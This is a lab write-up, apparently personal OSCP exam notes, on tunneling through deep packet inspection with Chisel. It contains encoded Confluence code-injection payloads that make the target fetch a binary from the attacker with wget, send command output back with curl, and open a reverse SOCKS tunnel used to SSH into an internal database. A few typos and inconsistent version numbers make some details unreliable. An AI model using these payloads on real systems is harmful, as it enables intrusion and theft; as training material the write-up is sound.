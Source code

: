 ```yaml
---
title: Tunneling Through Deep Packet Inspection
date: 2024-03-31 09:42:00 -0600
categories: [OSCP]
tags: [oscp, pen200, offsec, certs]     # TAG names should always be lowercase
---
```

*The Tunneling Through Deep Packet Inspection tools and tactics reviewed here are presented specifically in preparation for the OSCP exam per course suggestions and are by no means replacements for the OSCP training course, nor comprehensive guides for this step in the Kill Chain.*

# Tunneling Through Deep Packet Inspection

Deep Packet Inspection monitors traffic based on a set of rules, most often on a network perimeter where it can identify indicators of compromise. Devices with DPI may be configured to only allow specific transport protocols. 

## HTTP Tunneling Theory and Practice

Imagine this scenario: we have compromised CONFLUENCE01 and can execute commands via HTTP requests. But, when we try to pivot, we're blocked by a restrictive network config. A Deep Packet Inspection (DPI) solution is terminating all outbound traffic aside from HTTP. Also, all inbound ports are blocked aside from TCP 8090. A normal reverse shell will not work here because it would not conform to the HTTP format and would be terminated at the network perimeter by this DPI. SSH remote port forward also would not work because of this. We can only have HTTP traffic reach Kali. We could make requests with Wget and cURL. 

We have creds for PGDATABASE01 but need to SSH directly there thru CONFLUENCE01, which we will do through tunnelling into the internal network resembling an outgoing HTTP connection from CONFLUENCE01.

### HTTP Tunneling with Chisel

```
10.4.212.215 PGDATABASE01
192.168.212.63 CONFLUENCE01
```

Chisel is an HTTP tunneling tool that encapsulates our data stream within HTTP, while laos using SSH in the tunnel so our data is encrypted.

A Chisel server nees to be set up that can accept a connection from a Chisel client. There are many port forwarding options base on our configs. One great option is reverse port forwarding, which is similar to SSH remote port forwarding.

NOTE: There are older tools like HTTPTunnel that have similar functionality but lack the flexibility and cross-platform abilities.

We'll run a Chisel server on Kali that accepts a connection from a Chisel client on CONFLUENCE01. Chisel will bind a SOCKS proxy port on Kali, and the Chisel server will encapsulate what we send thru the SOCKS port and push it thru the HTTP tunnel as SSH-encrypted data. The Chisel client then decapsulates it and pushes it where addressed.

The client to server traffic is HTTP formatted, meaning we can traverse a deep packet solution regardless of the contents of each HTTP packet. The Kali Chisel server will listen on TCP 1080, a SOCKS proxy port. We'll pass all traffic sent to 1080 back up the HTTP tunnel to the Chisel client who will forward it on to its destination.

If our target is running a different operating system, you must download and use the compiled binary for that specific OS and architecture from [here](https://github.com/jpillora/chisel/releases). For ease, this example has both amd64 Linux machines.

```console
// get chisel in Kali's web server
$ sudo cp $(which chisel) /var/www/html/

// start web server
$ sudo systemctl start apache2
```

We'll run this wget command, but encoded, through the injection on CONFLUENCE01.

```
wget 192.168.45.245/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

```console
kali$ curl http://192.168.212.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.245/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

// check the apache2 log file to confirm it worked
kali$ tail -f /var/log/apache2/access.log
192.168.212.63 - - [01/Apr/2024:15:58:47 -0400] "GET /chisel HTTP/1.1" 200 8655115 "-" "Wget/1.20.3 (linux-gnu)"

// start chisel server on kali
kali$ chisel server --port 8080 --reverse
2024/04/01 16:04:26 server: Reverse tunnelling enabled
2024/04/01 16:04:26 server: Fingerprint cBhNABBlLr/wyZs9K2YIAxX3/wl1btZUL71SUlM1owU=
2024/04/01 16:04:26 server: Listening on http://0.0.0.0:8080

// log incoming traffic
kali$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Now we'll need to start the Chisel client with the CONFLUENCE01 injection using the below command, but encoded.

```
/tmp/chisel client 192.168.45.245:8080 R:socks > /dev/null 2>&1 &
```

```console
kali$ curl http://192.168.212.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.245:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

Nothing happens? There may be something wrong with chisel, but we don't have access to the error. Let's try to see the command output.

```console
kali$ curl http://192.168.212.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.245:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.45.245:8080/%27%29.start%28%29%22%29%7D/

/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
```

The error shows that Chisel is trying to use versions 2.32 and 2.34 of glibc,5 which CONFLUENCE01 does not have. (this could be any error that we have to work around). Let's look for a solution.

```kali
kali$ chisel -h
Version: 1.9.1-0kali1 (go1.21.3)

// kali is shipped with 1.8.1 Chisel
// BUT it was also compiled with Go v1.20.7
// this error is common with binaries compiles with Go v > 1.20 that run on OSs without a compatible version of glibc
// we'll just grab Chisel v1.1.8 that is compiled with Go v 1.19 from GitHub

kali$ wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

kali$ gunzip chisel_1.8.1_linux_amd64.gz

kali$ sudo cp ./chisel /var/www/htm

kali$ curl http://192.168.212.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.245/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali$ curl http://192.168.212.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.245:8080%20R:socks%27%29.start%28%29%22%29%7D/

// check Chisel server for connection

kali$ chisel server --port 8080 --reverse
2024/04/01 16:43:40 server: Reverse tunnelling enabled
2024/04/01 16:43:40 server: Fingerprint xCrEQ26tJWg1sKpii175cQfcZG+NcsmYbEGQY2NbXwc=
2024/04/01 16:43:40 server: Listening on http://0.0.0.0:8080
2024/04/01 16:58:29 server: session#1: Client version (1.9.1) differs from server version (1.9.1-0kali1)
2024/04/01 16:58:29 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

// check SOCKS proxy status

kali$ ss -ntplu
tcp   LISTEN 0      4096         127.0.0.1:1080        0.0.0.0:*     users:(("chisel",pid=3125914,fd=8)) 
```

So, our SOCKS proxy port 1080 is listening on the loopback iface of Kali. We'll use the SSH ProxyCommand config option, which accepts a shell command that is used to open a proxy-enabled channel. The documentation suggests using the OpenBSD version of Netcat, which exposes the -X flag9:1 and can connect to a SOCKS or HTTP proxy. However, the version of Netcat that ships with Kali doesn't support proxying, so we'll use Ncat.

```console
kali$ sudo apt install ncat

kali$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.212.215 
```

Success!
